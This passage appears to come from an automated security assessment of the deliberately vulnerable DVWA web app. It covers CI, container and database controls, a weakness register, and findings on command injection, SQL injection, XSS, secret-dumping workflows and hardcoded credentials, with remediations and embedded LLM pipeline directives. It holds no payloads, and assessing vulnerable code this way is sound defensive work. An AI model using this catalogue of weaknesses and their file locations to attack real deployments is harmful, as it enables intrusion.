**Assessment:** The only catalogued control is the `reCAPTCHA` call, which is partial. Uncontrolled paths dominate: OS command injection (🔴 [F-004](#f-004)), path traversal in the source viewer (🟠 [F-028](#f-028)), eval of a request-chosen help file (🟡 [F-076](#f-076)), and open redirects (🟡 [F-047](#f-047), 🟡 [F-048](#f-048), 🟡 [F-049](#f-049)).

**Findings in this category without a control:**

- 🔴 [F-004](#f-004) — OS command injection in health connectivity check and ping feature
- 🟠 [F-028](#f-028) — Path traversal in source viewer discloses
- 🟡 [F-047](#f-047) — Open redirect substring allow check bypassable
- 🟡 [F-048](#f-048) — Open redirect to arbitrary URL
- 🟡 [F-049](#f-049) — Open redirect scheme denylist bypassable
- 🟡 [F-068](#f-068) — Legacy v1 user API discloses password hashes
- 🟡 [F-076](#f-076) — Help page evals contents

<a id="recaptcha-outbound-verification"></a>
#### 6.10.1 reCAPTCHA outbound verification

**Status:** 🟡 Partial - the call targets a fixed HTTPS URL, but failures are not handled.

CAPTCHA verification sends the secret and the user response to a fixed Google HTTPS URL using `file_get_contents`.

The diagram shows the intended `reCAPTCHA` verification call:


**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): The outbound call goes to a fixed HTTPS Google URL with the secret in the POST body. A failure of the HTTP call is not handled, because file_get_contents warnings do not raise an Exception. Result handling on failure was not fully inspected. -->
The outbound target is fixed, but the surrounding CAPTCHA logic is weak:

- A failed HTTP call raises only a warning, not an exception, so failure handling is unverified.
- Step 2 can be submitted directly, skipping the check (🟡 [F-053](#f-053)).
- CAPTCHA state is trusted from a client field (🟡 [F-050](#f-050)).
- A debug backdoor remains in the code (🟡 [F-045](#f-045)).


**Relevant findings**

- None linked to this control; see the other findings of this category.

### 6.11 Operations Runtime and Supply Chain Controls

**Build path.** [Figure 1b](#figure-1b) shows the inputs, build systems and release artifacts that the repository evidences.

Highlighted path of 🟡 [F-055](#f-055) — Container images referenced by floating tags without digest pinning: Base images → GitHub Actions → Container image. The path stops where the evidence ends.

**Attack entries:**

- **Manipulated CI input**
  - 🟡 [F-055](#f-055) — Container images referenced by floating tags without digest pinning
  - 🟡 [F-056](#f-056) — Third-party GitHub Actions pinned to mutable tags instead of commit SHAs

**Not attributable to a build step:**

- 🟠 [F-027](#f-027) — Hardcoded MariaDB root and application passwords in compose
- 🟡 [F-040](#f-040) — Hardcoded weak MariaDB root and application credentials
- 🟡 [F-074](#f-074) — Container Runs as Root


**Systemic weaknesses:** [W-013](#w-013), [W-018](#w-018)
**Verdict:** 🔴 Unsafe

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.11.1 Database network exposure and isolation](#6111-database-network-exposure-and-isolation)
- [6.11.2 Database image pinning and dependency lifecycle](#6112-database-image-pinning-and-dependency-lifecycle)
- [6.11.3 CI action and dependency pinning](#6113-ci-action-and-dependency-pinning)
- [6.11.4 CI secrets handling](#6114-ci-secrets-handling)
- [6.11.5 Workflow token permissions and release pipeline](#6115-workflow-token-permissions-and-release-pipeline)
- [6.11.6 Static analysis in CI](#6116-static-analysis-in-ci)
- [6.11.7 Container and compose deployment configuration](#6117-container-and-compose-deployment-configuration)
- [6.11.8 Network exposure and deployment configuration](#6118-network-exposure-and-deployment-configuration)

**Implemented controls:** Database network exposure and isolation, Database image pinning and dependency lifecycle, CI action and dependency pinning, CI secrets handling, Workflow token permissions and release pipeline.

**Assessment:** Runtime isolation is partly sound: ports bind to localhost and the database has no published port. CI is the weak point, since a workflow dumps all repository secrets (🟠 [F-026](#f-026)), actions and images float on mutable tags (🟡 [F-055](#f-055), 🟡 [F-056](#f-056)), and the container runs as root (🟡 [F-074](#f-074)).

**Findings in this category without a control:**

- 🟡 [F-003](#f-003) — Raw Database Error Disclosure to Client
- 🟠 [F-026](#f-026) — All repository secrets dumped base64-encoded to workflow
- 🟠 [F-027](#f-027) — Hardcoded MariaDB root and application passwords in compose
- 🟡 [F-055](#f-055) — Container images referenced by floating tags without digest pinning
- 🟡 [F-056](#f-056) — Third-party GitHub Actions pinned to mutable tags instead of commit SHAs
- 🟡 [F-073](#f-073) — Workflows lack explicit permissions block for GITHUB_TOKEN
- 🟡 [F-074](#f-074) — Container Runs as Root
- 🟡 [F-075](#f-075) — Missing Workflow Permissions Block

<a id="database-network-exposure-and-isolation"></a>
#### 6.11.1 Database network exposure and isolation

**Status:** 🟡 Partial - the database has no published host port, but there is no TLS or per-client restriction.

The `db` service publishes no host ports and joins only the dedicated `dvwa` network, which the web service shares.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): The db service publishes no host ports and is attached only to the dedicated dvwa network, limiting reachability to containers on that network. No TLS or per-client restriction is configured, and the web service shares the network. Upstream firewall or host controls were not assessed. -->
Reach is limited to that network, with open questions beyond it:

- No TLS is configured for database connections.
- The web container shares the network and can reach the database freely.
- Upstream firewall and host controls were not assessed.

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="database-image-pinning-and-dependency-lifecycle"></a>
#### 6.11.2 Database image pinning and dependency lifecycle

**Status:** 🟠 Weak - the database image uses a floating major tag with no digest.

The database service pulls `mariadb:10`, a major-version tag.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Image uses the floating major tag mariadb:10 with no digest pinning, so builds are not reproducible and image provenance is not verified in this configuration. -->
Image content can change between pulls:

- Builds are not reproducible.
- Image provenance is not verified in this configuration.
- Floating tags are also flagged across the build files (🟡 [F-055](#f-055)).

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="ci-action-and-dependency-pinning"></a>
#### 6.11.3 CI action and dependency pinning

**Status:** 🟠 Weak - actions and base images use mutable tags rather than commit SHAs or digests.

Workflows reference third-party actions by version tag, and the `Dockerfile` builds from `php:8-apache` and `composer:latest`.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Actions are pinned to version tags (mutable), not commit SHAs; Dockerfile uses composer:latest and a floating php:8-apache base. pytest workflow installs unpinned pytest. Supply-chain tampering is possible via tag/image moves. -->
A moved tag or image changes what CI runs:

- Third-party actions are pinned to mutable tags (🟡 [F-056](#f-056)).
- Container images float without digests (🟡 [F-055](#f-055)).
- The pytest workflow installs an unpinned `pytest`.

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="ci-secrets-handling"></a>
#### 6.11.4 CI secrets handling

**Status:** 🔴 Unsafe - a workflow prints every repository secret base64-encoded, defeating log masking.

`vulnerable.yml` runs on push to master and exports the secrets context to the job environment.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Workflow exports all secrets via toJSON(secrets) and prints them base64-encoded, defeating GitHub log masking and leaking every repository secret on each push to master (appears intentionally vulnerable demo). -->
The leak is deliberate-looking but real in effect:

- `toJSON(secrets)` is encoded and printed, so masking does not apply (🟠 [F-026](#f-026)).
- Every push to master repeats the exposure.
- Who can read the log depends on repository visibility, which source does not show.

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="workflow-token-permissions-and-release-pipeline"></a>
#### 6.11.5 Workflow token permissions and release pipeline

**Status:** 🟡 Partial - the GHCR push uses a scoped `GITHUB_TOKEN`, but permissions are implicit and the image is unsigned.

The image workflow pushes to GHCR with the built-in `GITHUB_TOKEN` and triggers only on master or manual runs.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Uses scoped GITHUB_TOKEN rather than a long-lived PAT for GHCR push, and triggers only on master/manual. No explicit permissions block (default token scope applies), and github.ref is interpolated directly into shell script; image is not signed or attested. -->
Token scope and release integrity have gaps:

- No explicit `permissions` block, so repository defaults apply (🟡 [F-073](#f-073) — Workflows lack explicit permissions block for GITHUB_TOKEN (Workflows lack explicit permissions block for `GITHUB_TOKEN`), 🟡 [F-075](#f-075) — Missing Workflow Permissions Block).
- `github.ref` is interpolated straight into a shell script.
- The published image is neither signed nor attested.

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="static-analysis-in-ci"></a><a id="static-analysis-in-ci-codeql-shiftleft"></a>
#### 6.11.6 Static analysis in CI

**Status:** 🟢 Adequate - CodeQL and ShiftLeft run in CI, though PHP is not analysed.

CodeQL runs on push, pull request, and a weekly schedule for JavaScript and Python. ShiftLeft scan uploads SARIF results.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): CodeQL runs on push, PR and weekly schedule for JavaScript and Python; ShiftLeft scan uploads SARIF. No PHP analysis configured and no dependency scanning observed. -->
Scanning exists, but its coverage misses the main language:

- No PHP analysis is configured, though PHP holds most of the code.
- No dependency scanning was observed.
- The many injection findings above went through without a CI gate.

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="container-and-compose-deployment-configuration"></a>
#### 6.11.7 Container and compose deployment configuration

**Status:** 🟠 Weak - the port is localhost-bound, but credentials are weak and the container is not hardened.

Compose publishes the web port on localhost only. The image runs Apache with composer and git installed.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Port is bound to localhost only, which limits exposure. Database uses hardcoded weak credentials (root password dvwa) in compose, and the container runs Apache with composer and git installed with no non-root user or hardening. -->
Binding to localhost limits exposure, and the container itself is wide open:

- The container runs as root (🟡 [F-074](#f-074)).
- Database credentials are weak and hardcoded (🟠 [F-027](#f-027)).
- No non-root user or hardening is configured.

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="network-exposure-and-deployment-configuration"></a>
#### 6.11.8 Network exposure and deployment configuration

**Status:** 🟡 Partial - web and database are not publicly exposed, but neither uses TLS.

The web port is bound to `127.0.0.1`, and the database sits on a private compose network with no published port.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): The web port is bound to 127.0.0.1 only. The DB is on a private compose network with no published port. This limits exposure, but the database credentials are weak and no TLS is configured for the web or DB transport. -->
Exposure is narrow, transport and credentials are not:

- No TLS is configured for web or database traffic.
- Database credentials are weak and committed (🟠 [F-027](#f-027), 🟡 [F-040](#f-040)).
- Raw database errors reach the client (🟡 [F-003](#f-003)).

**Relevant findings**

- None linked to this control; see the other findings of this category.

### 6.12 Real-time and Not Applicable Controls

<!-- §6.12 LOCKED — mechanically derived: no routed finding and no real-time, LLM, GraphQL, or gRPC component in the model. Renderer must not rewrite the line below. -->
_Not applicable - no finding routed to this category, and the architecture model contains no real-time / WebSocket, AI/LLM, GraphQL, or gRPC component. Controls catalogued elsewhere (container hardening, dependency determinism) are covered in their primary [§6](#6-security-architecture) sections._

### 6.13 Defense-in-Depth Summary

<!-- §6.13 FORMAT — NEVER a table, at most 120 words, no file:line. Two short bullet lists: **What holds** (the individual positive controls that exist, strongest first, e.g. distroless runtime image, RS256 algorithm choice) and **Repair first** (the control-boundary repairs that would restore layered defense, each with its mitigation link [M-NNN](#m-nnn)). Do NOT emit a Markdown table — `| header |` lines under §6.13 are a contract violation. -->

**What holds**

- Web port bound to localhost only.
- Database on a private network with no published port.
- Scoped `GITHUB_TOKEN` for image push.
- CodeQL and ShiftLeft scans in CI.
- Per-session CSRF token on login.

**Repair first**

- Replace string-built SQL with prepared statements.
- Replace unsalted `MD5` with a salted password hash.
- Remove the workflow that prints all secrets.
- Move credentials out of `compose.yml`.
- Add server-side authorization to user endpoints.

---

<a id="weakness-register"></a>
## 7. Weakness Register

Systemic control gaps behind the findings, ordered by severity (W-001 = most severe). Each weakness names the missing, home-grown, or misused control, the findings that evidence it, the components it spans, and its remediation. A weakness may also rest on observed unsafe practice or an absent architectural control with no confirmed exploit - only confirmed findings carry a CVSS score.

- 🔴 Critical · [W-001](#w-001) - Application data builds operating-system commands · confirmed · 1 finding · 2 components
- 🔴 Critical · [W-002](#w-002) - Database access relies on concatenated queries · confirmed · 11 findings · 1 component
- 🟠 High · [W-003](#w-003) - Input handling lacks enforced boundary validation · confirmed · 1 finding · 1 component
- 🟠 High · [W-004](#w-004) - Authorization is implemented route by route · confirmed · 2 findings · 1 component
- 🟠 High · [W-005](#w-005) - Cookie-authenticated changes lack request authenticity checks · confirmed · 2 findings · 1 component
- 🟠 High · [W-006](#w-006) - Frontend rendering lacks enforced output encoding · confirmed · 13 findings · 1 component
- 🟡 Medium · [W-007](#w-007) - Secrets are committed to source instead of a managed store · confirmed · 6 findings · 3 components
- 🟡 Medium · [W-008](#w-008) - Security-sensitive data uses weak cryptographic primitives · confirmed · 4 findings · 1 component
- 🟡 Medium · [W-009](#w-009) - Password change does not require the current password (`low.php:9`) · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-010](#w-010) - Application data crosses into executable code · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-011](#w-011) - Missing Workflow Permissions Block · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-012](#w-012) - Privileged attributes lack an enforced write allowlist · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-013](#w-013) - Missing SBOM Generation · observed-practice · 0 findings · 1 component
- 🟡 Medium · [W-014](#w-014) - All repository secrets dumped base64-encoded to workflow logs · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-015](#w-015) - Login passwords submitted in GET query strings (`low.php:8`) · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-016](#w-016) - Image upload keeps original name without re-encoding (`high.php:20`) · observed-practice · 1 finding · 1 component
- 🟡 Medium · [W-017](#w-017) - Image upload keeps original name and bytes allowing polyglot files (`high.php:6`) · observed-practice · 0 findings · 1 component
- 🟡 Medium · [W-018](#w-018) - Build pipeline trusts mutable third-party references · design-risk · 1 finding · 1 component

<a id="w-001"></a>
### W-001 — Application data builds operating-system commands

🔴 Critical · implementation weakness · confirmed · 1 finding

A command line is assembled from application values and handed to a shell. Shell syntax in those values runs as further commands with the privileges of the service.

**Confirmed findings:**

- 🔴 [F-004](#f-004) — OS command injection in health connectivity check and ping feature

**Practice sites:**

- `.github/workflows/docker-image.yml:33`

**Affected components:** [C-02](#c-02), [C-03](#c-03)

**Remediation:**

- **Structural** — call a fixed executable with an argument list and no shell, and accept only allowlisted argument values from callers
- **Tactical** — ● [M-013](#m-013) — Validate target host and use escapeshellarg

<a id="w-002"></a>
### W-002 — Database access relies on concatenated queries

🔴 Critical · implementation weakness · confirmed · 11 findings

Database queries are assembled from application values instead of passing those values through an enforced parameterised data-access path. This leaves every call site responsible for preserving query structure.

**Architectural anti-pattern - Raw SQL string interpolation.** Request values are concatenated into SQL across many pages, so parameter binding is not a shared boundary. Each page must be fixed or moved onto one data-access layer.

**Confirmed findings:**

- 🔴 [F-005](#f-005) — SQL injection in user detail update endpoint
- 🟠 [F-017](#f-017) — SQL injection in brute-force login query
- 🟠 [F-018](#f-018) — Second-order SQL injection
- 🟠 [F-019](#f-019) — SQL injection
- 🟠 [F-020](#f-020) — SQL injection in unquoted numeric context despite escaping
- 🟠 [F-021](#f-021) — Blind SQL injection
- 🟠 [F-022](#f-022) — Blind SQL injection
- 🟠 [F-023](#f-023) — Blind SQL injection

**Practice sites:**

- 🟠 [F-014](#f-014) — SQL injection
- 🟠 [F-015](#f-015) — SQL injection
- 🟠 [F-016](#f-016) — SQL injection

**Affected components:** [C-03](#c-03)

**Remediation:**

- **Structural** — provide one parameterised repository or query-builder path and prohibit application-value interpolation in database queries
- **Tactical** — ● [M-014](#m-014) — Use prepared statements for user update query, ● [M-024](#m-024) — Use prepared statements for login lookup, ● [M-025](#m-025) — Bind session id via prepared statement, ● [M-026](#m-026) — Use prepared statements with bound integer id, ● [M-027](#m-027) — Bind id as integer parameter in prepared query, ● [M-028](#m-028) — Parameterize query and validate cookie id, ● [M-029](#m-029) — Use parameterized query for blind lookup, ● [M-030](#m-030) — Bind id as integer in prepared statement, ◑ [M-001](#m-001) — Manual review: verify SQL injection via interpolated/concatenated query PHP…, ◕ [M-022](#m-022) — Use prepared statements, ◑ [M-002](#m-002) — Manual review: verify SQL injection via interpolated/concatenated query PHP…, ● [M-023](#m-023) — Bind log values with prepared statements

<a id="w-003"></a>
### W-003 — Input handling lacks enforced boundary validation

🟠 High · design weakness · confirmed · 1 finding

Request handlers do not validate input against one enforced server-side schema or allowlist at the boundary - validation is either absent on the vulnerable parameters or limited to rejecting selected bad patterns (a blacklist). New encodings and unanticipated input forms can therefore reach downstream parsers or interpreters.

**Confirmed findings:**

- 🟠 [F-028](#f-028) — Path traversal in source viewer discloses

**Practice sites:**

- `vulnerabilities/view_source_all.php:14`

**Architecture evidence:** Schema Validation, Allowlist Validation, Source evidence (`vulnerabilities/javascript/source/low.php:13`), Source evidence (`vulnerabilities/exec/source/high.php:7`), Source evidence (`vulnerabilities/exec/source/high.php:20`), Source evidence (`vulnerabilities/exec/source/medium.php:7`) (+1 more)

**Affected components:** [C-03](#c-03)

**Remediation:**

- **Structural** — enforce server-side schemas and domain-specific allowlists before input reaches parsing, persistence, or command construction
- **Tactical** — ◕ [M-034](#m-034) — Constrain file paths to a safe base directory

<a id="w-004"></a>
### W-004 — Authorization is implemented route by route

🟠 High · implementation weakness · confirmed · 2 findings

Authorization depends on per-handler checks instead of a policy boundary that consistently enforces role, ownership, and tenant scope. New routes can bypass protection by omitting a local check.

**Confirmed findings:**

- 🟠 [F-039](#f-039) — Admin-only user endpoints gated

**Practice sites:**

- 🟡 [F-081](#f-081) — IDOR guarded by static public token

**Affected components:** [C-03](#c-03)

**Remediation:**

- **Structural** — enforce authorization through a shared server-side policy layer and make ownership and tenant scope mandatory inputs to data access
- **Tactical** — ◕ [M-043](#m-043) — Enforce server-side authorization on every endpoint, ◑ [M-081](#m-081) — Enforce object-level (ownership) authorization

<a id="w-005"></a>
### W-005 — Cookie-authenticated changes lack request authenticity checks

🟠 High · implementation weakness · confirmed · 2 findings

A state-changing operation accepts ambient browser credentials without an enforced check that the authenticated user initiated the request. The affected mutation path lacks a request-authenticity boundary.

**Confirmed findings:**

- 🟠 [F-025](#f-025) — CSRF check bypass

**Practice sites:**

- 🟠 [F-001](#f-001) — Missing Anti-CSRF Token on State Changes

**Affected components:** [C-03](#c-03)

**Remediation:**

- **Structural** — enforce framework CSRF protection or validated origin and anti-CSRF tokens on every mutation that accepts ambient browser credentials
- **Tactical** — ◕ [M-032](#m-032) — Replace Referer substring check with anti-CSRF token, ◕ [M-010](#m-010) — Require CSRF token and current password

<a id="w-006"></a>
### W-006 — Frontend rendering lacks enforced output encoding

🟠 High · design weakness · confirmed · 13 findings

Browser rendering paths write HTML or DOM content directly without one enforced contextual-encoding or sanitisation boundary. Safety depends on each individual component using the right API.

**Confirmed findings:**

- 🟠 [F-011](#f-011) — Stored XSS
- 🟠 [F-012](#f-012) — Stored XSS
- 🟠 [F-013](#f-013) — DOM-based XSS from URL default parameter written
- 🟡 [F-058](#f-058) — Reflected XSS of username on brute-force login
- 🟡 [F-059](#f-059) — Reflected XSS
- 🟡 [F-060](#f-060) — Reflected script injection bypassing permissive CSP
- 🟡 [F-062](#f-062) — Reflected XSS of username in test credentials page
- 🟡 [F-063](#f-063) — Reflected XSS
- 🟡 [F-064](#f-064) — Reflected cross-site scripting

**Practice sites:**

- 🟡 [F-057](#f-057) — Request URI reflected unescaped into inline script string
- 🟡 [F-061](#f-061) — Unvalidated JSONP callback reflected into script response
- 🟡 [F-065](#f-065) — Reflected name parameter rendered without HTML encoding
- 🟡 [F-066](#f-066) — Stored XSS payloads accepted into guestbook entries
- `dvwa/includes/dvwaPage.inc.php:406`
- `vulnerabilities/api/source/medium.php:25`
- `vulnerabilities/bac/source/low.php:90`
- `vulnerabilities/captcha/source/low.php:32`
- `vulnerabilities/csp/source/impossible.php:11`
- `vulnerabilities/fi/file3.php:12`

**Architecture evidence:** Template Autoescape, Output Encoding, Content Security Policy, Source evidence (`vulnerabilities/authbypass/authbypass.js:43`)

**Affected components:** [C-03](#c-03)

**Remediation:**

- **Structural** — use framework-safe rendering by default and isolate any required raw HTML behind one reviewed sanitisation and Trusted Types policy
- **Tactical** — ◕ [M-019](#m-019) — Render user fields via textContent and DOM APIs, ◕ [M-020](#m-020) — HTML-escape log fields when rendering access log, ◕ [M-021](#m-021) — Encode output instead of bypassing the framework sanitizer (F-013), ◑ [M-062](#m-062) — HTML-encode username before rendering, ◑ [M-063](#m-063) — Encode or drop PHP_SELF in form action, ◑ [M-064](#m-064) — HTML-encode reflected input and tighten CSP, ◑ [M-066](#m-066) — HTML-encode id before output, ◑ [M-067](#m-067) — HTML-encode reflected name with htmlspecialchars, ◑ [M-061](#m-061) — JSON-encode server values embedded, ◑ [M-065](#m-065) — Validate JSONP callback against an identifier allowlist, ◑ [M-068](#m-068) — HTML-encode the reflected name parameter, ◑ [M-003](#m-003) — Manual review: verify Stored XSS payloads accepted into guestbook entries, ◑ [M-069](#m-069) — Encode guestbook fields on output with htmlspecialchars

<a id="w-007"></a>
### W-007 — Secrets are committed to source instead of a managed store

🟡 Medium · design weakness · confirmed · 6 findings

Cryptographic keys, credentials, and other high-entropy secrets are embedded as literals in source or config rather than resolved at runtime from a managed secret store, so anyone with repository read access obtains reusable signing material and credentials.

**Architectural anti-pattern - Secrets hardcoded in source.** Encryption keys and database passwords live in source and deployment files rather than a managed secret store, so repository access exposes them.

**Confirmed findings:**

- 🟡 [F-052](#f-052) — Static access token accepted from the URL query string

**Practice sites:**

- 🟠 [F-027](#f-027) — Hardcoded MariaDB root and application passwords in compose
- 🟠 [F-029](#f-029) — Hardcoded symmetric encryption keys in source
- 🟡 [F-040](#f-040) — Hardcoded weak MariaDB root and application credentials
- 🟡 [F-043](#f-043) — Hardcoded encryption key and static secret allow API token
- 🟡 [F-051](#f-051) — Hardcoded client secret and user password in API login
- `vulnerabilities/sqli/test.php:4`

**Architecture evidence:** Managed Secret Store, Runtime Secret Injection

**Affected components:** [C-01](#c-01), [C-02](#c-02), [C-03](#c-03)

**Remediation:**

- **Structural** — move every secret to a managed secret store or injected environment configuration, rotate the exposed values, and add secret-scanning to CI
- **Tactical** — ◑ [M-056](#m-056) — Replace the constant URL token with session authorization, ◕ [M-007](#m-007) — docker-compose secrets supplied by reference, ● [M-035](#m-035) — Load keys from a secret store, ◑ [M-044](#m-044) — Use Docker secrets with strong random DB passwords, ◑ [M-047](#m-047) — Load token signing key from secret store, ◑ [M-055](#m-055) — Verify API credentials against hashed user store

<a id="w-008"></a>
### W-008 — Security-sensitive data uses weak cryptographic primitives

🟡 Medium · implementation weakness · confirmed · 4 findings

Password, token, or integrity protection uses a weak hash, predictable random source, or insufficient work factor. The application may use a standard library, but the selected primitive does not provide the required security property.

**Confirmed findings:**

- 🟡 [F-069](#f-069) — Repeating-key XOR used as message encryption

**Practice sites:**

- 🟠 [F-002](#f-002) — Broken MD5 hashing used for stored passwords without salt or strength policy
- 🟠 [F-030](#f-030) — Unsalted MD5 password hashing
- 🟡 [F-070](#f-070) — Broken hash primitive
- `dvwa/includes/dvwaPage.inc.php:651`

**Affected components:** [C-03](#c-03)

**Remediation:**

- **Structural** — standardise on a password KDF, a CSPRNG for secrets, and modern authenticated cryptographic primitives with centrally reviewed parameters
- **Tactical** — ◑ [M-072](#m-072) — Replace the weak cryptographic algorithm, ◕ [M-011](#m-011) — Use modern cryptographic hash and KDF algorithms, ◕ [M-036](#m-036) — Hash passwords with a strong, salted algorithm, ◑ [M-004](#m-004) — Manual review: verify Broken hash primitive PHP

<a id="w-009"></a>
### W-009 — Password change does not require the current password (low.php:9)

🟡 Medium · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟠 [F-006](#f-006) — Password change does not require the current password

**Affected components:** [C-03](#c-03)

**Remediation:**

- **Tactical** — ◕ [M-015](#m-015) — Verify the current password before any password change

<a id="w-010"></a>
### W-010 — Application data crosses into executable code

🟡 Medium · implementation weakness · observed-practice · 1 finding

An interpreter evaluates application values as code. The affected path mixes data processing with executable program construction instead of constraining callers to predefined operations.

**Practice sites:**

- 🟡 [F-076](#f-076) — Help page evals contents

**Affected components:** [C-03](#c-03)

**Remediation:**

- **Structural** — replace evaluation of application values with a data parser or a fixed set of operations whose arguments remain data
- **Tactical** — ◕ [M-076](#m-076) — Remove server-side evaluation of untrusted input

<a id="w-011"></a>
### W-011 — Missing Workflow Permissions Block

🟡 Medium · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟡 [F-075](#f-075) — Missing Workflow Permissions Block

**Affected components:** [C-02](#c-02)

**Remediation:**

- **Tactical** — ◑ [M-009](#m-009) — Apply least-privilege permissions

<a id="w-012"></a>
### W-012 — Privileged attributes lack an enforced write allowlist

🟡 Medium · implementation weakness · observed-practice · 1 finding

Model binding accepts caller-selected attributes across a privileged write boundary. The affected binding path does not separate fields callers may change from fields reserved for server-side policy.

**Architectural anti-pattern - Missing server-side authorization layer.** Access checks are done page by page or trust client cookies, so no central gate enforces who may read or change users. A point fix leaves other routes open.

**Practice sites:**

- 🟡 [F-082](#f-082) — Unauthenticated user API allows mass assignment

**Affected components:** [C-03](#c-03)

**Remediation:**

- **Structural** — define operation-specific write schemas and assign privileged attributes exclusively through server-side policy
- **Tactical** — ◕ [M-082](#m-082) — Allowlist client-controlled fields

<a id="w-013"></a>
### W-013 — Missing SBOM Generation

🟡 Medium · implementation weakness · observed-practice

**Practice sites:**

- `.github/workflows/codeql-analysis.yml:1`

**Affected components:** [C-02](#c-02)

<a id="w-014"></a>
### W-014 — All repository secrets dumped base64-encoded to workflow logs

🟡 Medium · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟠 [F-026](#f-026) — All repository secrets dumped base64-encoded to workflow

**Affected components:** [C-02](#c-02)

**Remediation:**

- **Tactical** — ◕ [M-033](#m-033) — Remove secret dumping step from vulnerable workflow

<a id="w-015"></a>
### W-015 — Login passwords submitted in GET query strings (low.php:8)

🟡 Medium · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟡 [F-046](#f-046) — Login passwords submitted in GET query strings

**Affected components:** [C-03](#c-03)

**Remediation:**

- **Tactical** — ◑ [M-050](#m-050) — Accept login credentials only in POST bodies over TLS

<a id="w-016"></a>
### W-016 — Image upload keeps original name without re-encoding (high.php:20)

🟡 Medium · implementation weakness · observed-practice · 1 finding

**Practice sites:**

- 🟡 [F-078](#f-078) — Image upload keeps original name without re-encoding

**Affected components:** [C-03](#c-03)

**Remediation:**

- **Tactical** — ◑ [M-078](#m-078) — Re-encode images and store under random names

<a id="w-017"></a>
### W-017 — Image upload keeps original name and bytes allowing polyglot files (high.php:6)

🟡 Medium · implementation weakness · observed-practice

**Practice sites:**

- `vulnerabilities/upload/source/high.php:6`

**Affected components:** [C-03](#c-03)

<a id="w-018"></a>
### W-018 — Build pipeline trusts mutable third-party references

🟡 Medium · design weakness · design-risk · 1 finding

CI/CD workflows resolve third-party actions and other build dependencies to mutable tags or branches instead of immutable commit digests, so a retagged or compromised upstream runs inside the pipeline with its token and secret scope.

**Practice sites:**

- 🟡 [F-056](#f-056) — Third-party GitHub Actions pinned to mutable tags instead of commit SHAs
- `.github/workflows/pytest.yml:26`

**Architecture evidence:** Commit-SHA Action Pinning, Dependency Provenance Verification, Source evidence (`.github/workflows/shiftleft-analysis.yml:24`), Source evidence (`.github/workflows/docker-image.yml:16`), Source evidence (`.github/workflows/docker-image.yml:19`), Source evidence (`.github/workflows/docker-image.yml:22`)

**Affected components:** [C-02](#c-02)

**Remediation:**

- **Structural** — pin every third-party action and build dependency to an immutable commit SHA (or a vetted internal mirror) and enforce SHA-pinning in CI
- **Tactical** — ◑ [M-060](#m-060) — Pin third-party dependencies to immutable versions

---

## 8. Findings Register

Findings are grouped by severity (Critical → High → Medium → Low); within a tier they are ordered by attack vektor (Repo-Read → Internet-Anon → Internet-User → Victim-Required). Every finding card shows **Severity · Component · Location**, **Issue**, **Fix**, and **Classification** (with external CWE / OWASP links). **Evidence**, **Root cause**, violated requirements, the weakness, and the trust boundary gap appear when they apply.

**Risk Distribution:** 🔴 Critical: 2 · 🟠 High: 34 · 🟡 Medium: 45 · 🟢 Low: n/a · **Total findings: 81**
*This register counts every finding card below. The Management Summary's risk distribution (Total: 57) counts folded insecure-practice sites under their weakness and adds each design risk once.*
**STRIDE Coverage:** Spoofing: 19 · Tampering: 30 · Repudiation: 1 · Information Disclosure: 11 · Denial of Service: 1 · Elevation of Privilege: 19

The root causes and the fixes to do first are summarized in **Remediation Priorities** in the Management Summary; evidence-backed weaknesses are documented in the [Weakness Register](#weakness-register).

